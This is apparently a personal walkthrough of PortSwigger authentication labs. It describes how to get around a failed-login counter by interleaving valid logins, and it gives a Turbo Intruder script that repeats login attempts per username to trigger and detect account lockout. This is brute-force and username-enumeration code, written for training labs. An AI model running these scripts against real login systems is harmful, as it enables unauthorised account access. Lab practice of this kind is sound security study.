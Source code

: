 2. **reset request**: this will be our "failed-attempts counter-reset request": every successful login resets de facto the counter of failed attempts. 

3. **check process** - the actual iterartion consist of a. password check request followd by b. counter reset request

4. **filter** a successful attempt yeilds 302 response so we will gather all successful responses and look in the payload column for the only raw with payload parameter full (since the rest of the 302 responses are not *payloaded* request)

we login to the account with the dicovered payload

# Done


# ***Lab: Username enumeration via account lock***
https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-account-lock

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page. 

1. enumerate username with Turbo intruder:
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=1,
                           requestsPerConnection=10,
                           pipeline=False,
                           maxQueueSize=10,
                           timeout=5,
                           maxRetriesPerRequest=3,
                           autoStart=False
                           )
    engine.start(timeout=5)

    
    for word in open('/home/kali/Documents/Portswigger_labs/Broken Authentication /usernames.txt'):
        engine.queue(target.req, word.rstrip())
        engine.queue(target.req, word.rstrip())
        engine.queue(target.req, word.rstrip())
        engine.queue(target.req, word.rstrip())
        engine.queue(target.req, word.rstrip())
        
def handleResponse(req, interesting):
    if 'xxx' not in req.response:
        table.add(req)

```
**observe:**
on login with credential: **username=as400&password=password**, the 5th try yields response:
```htm
                       <p class=is-warning>You have made too many incorrect login attempts. Please try again in 1 minute(s).</p>
```
now we know a valid username
